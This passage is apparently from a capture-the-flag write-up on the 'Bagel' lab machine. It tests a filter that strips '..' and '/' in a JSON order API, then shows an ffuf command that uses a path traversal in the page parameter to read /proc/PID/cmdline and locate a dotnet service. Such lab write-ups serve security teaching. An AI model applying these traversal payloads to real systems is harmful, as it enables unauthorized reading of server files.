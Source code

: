 I would expect a not found if the `../` got through. It seems that all `..` and `/` are removed. That is confirmed by this:

```

> {"ReadOrder":"o..rd/er..s//.txt"}
< {
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "7:12:15",
  "RemoveOrder": null,
  "WriteOrder": null,
  "ReadOrder": "0xdf was here"
}

```

When the `..` and `/` are removed, it leaves `orders.txt`.

### Get bagel.dll

#### Strategy

I’d like to find what is running the service on 5000 just like I did for 8000. The comment in the source said to run it with `dotnet <dll>`. I’ll use `ffuf` to scan over a range of pids, and `-mr dotnet` to match results that have “dotnet” in them. With the command line to the process running `dotnet`, I’ll either get the full path to the dll, or I’ll get a relative path, which is still good enough (as I can then use the `cwd` symlink in `/proc/[pid]` to get into that directory and get the file).

#### Fuzz

`ffuf` doesn’t have a `range` generation like `wfuzz`, but I can use `<( seq 1 10000)` to make a temp file with the numbers 1 to 10000 in it one per line.

```

oxdf@hacky$ ffuf -u http://bagel.htb:8000/?page=../../../../proc/FUZZ/cmdline -w <(seq 1 10000) -mr 'dotnet'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://bagel.htb:8000/?page=../../../../proc/FUZZ/cmdline
 :: Wordlist         : FUZZ: /dev/fd/63
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: dotnet
________________________________________________

890                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 86ms]
924                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 92ms]
926                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 92ms]
925                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 103ms]
927                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 101ms]
928                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 99ms]
```